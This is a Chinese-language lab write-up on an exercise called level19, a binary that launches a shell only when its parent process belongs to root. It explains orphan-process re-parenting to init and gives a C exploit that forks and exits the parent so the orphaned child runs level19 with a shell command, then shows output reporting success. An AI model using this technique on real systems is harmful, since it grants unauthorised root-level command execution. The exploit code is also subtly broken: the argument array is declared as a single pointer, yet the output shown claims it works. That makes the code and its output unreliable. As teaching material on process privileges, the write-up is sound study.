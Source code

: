 # Linux下漏洞分析入门

## 实验概述

### 【目的】
在非root权限下，运行level19，得到任意代码执行
### 【环境】
Linux
### 【工具】
gcc
### 【原理】
孤儿进程
在操作系统领域中，孤儿进程指的是在其父进程执行完成或被终止后仍继续运行的一类进程。在类UNIX操作系统中，为避免孤儿进程退出时无法释放所占用的资源而僵死，任何孤儿进程产生时都会立即为系统进程init或systemd自动接收为子进程，这一过程也被称为“收养”（英语：re-parenting）[1]。在此需注意，虽然事实上该进程已有init作为其父进程，但由于创建该进程的进程已不存在，所以仍应称之为“孤儿进程”。
## 实验步骤

### 【步骤】
先查看源代码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
其中，snprintf()是sprintf()的安全版本，可以控制要写入字符串的长度，预防缓冲区溢出。
尝试直接运行
```
$ ./level19
You are unauthorized to run this program
```
可以看到，直接运行行不通。
这里程序先调用getppid()获取父进程id，通过查找`/proc`下该进程是否属于root，如果是root，就可以执行shell。
因为本题要求在非root环境下运行，故不能直接用sudo或切换到root账户来执行。
这里要提到的是，一个进程为孤儿进程时，就会被init进程接管，而init进程的权限是root，所以当level19为孤儿进程时，便可通过父进程是否为root权限的检查。

这里我们编写一个c程序来调用程序，并杀死父进程，使程序为孤儿进程，让init进程接管，从而绕过检查。
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
    pid_t p;
    p = fork();
    if (p == 0) //子进程调用
    {
        sleep(1);
	char *args = {"/bin/sh","-c","echo u got it > test"};
	execv("./level19",args);
	return 0;
    }
    else if(p > 0) //如果是父进程，直接返回，使子进程成为孤儿进程
        exit(0);

    return 0;
}

```
```
$ gcc explevel19.c -o ex19
$ ./ex19
$ cat test
u got it

```
### 【总结】
本次实验主要了解了Linux的fork机制。
